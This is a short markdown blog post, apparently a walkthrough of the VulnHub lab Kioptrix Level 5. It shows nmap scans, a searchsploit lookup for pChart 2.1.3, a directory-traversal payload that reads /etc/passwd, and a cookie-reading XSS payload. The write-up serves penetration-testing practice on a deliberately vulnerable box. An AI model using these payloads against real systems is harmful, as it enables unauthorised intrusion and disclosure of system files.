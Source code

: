 ```yaml
---
layout: post
title: Kioptrix Level 5 (2014)
---
```

[Kioptrix Level 5 (2014)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)

## Find IP of box
Our IP: x.x.x.49

`nmap -sP <LHOST>/24`

Kioptrix is running x.x.x.16

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.16`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL5/NMap1.JPG)
 
 There are 3 ports open: 22 (ssh), 80 (http), 8080 (http)
 
 However, the ssh port is closed so we cannot connect
  
 ## HTTP
 
 If we check the source code of port 80, the meta tag has been left in and gives us a url path: pChart2.1.3/index.php
 
 ### Searchsploit
 
 `searchsploit pchart 2.1.3` and we get a txt file containing explanations of multiple explanations such as directory traversal and XSS
 
 ### Directory Traversal
 
Append `?Action=View&Script=/../../etc/passwd` to the url (after index.php) to view etc/passwd but no hashes to be cracked

### XSS

`?id=<script>alert(document.cookie)</script>`
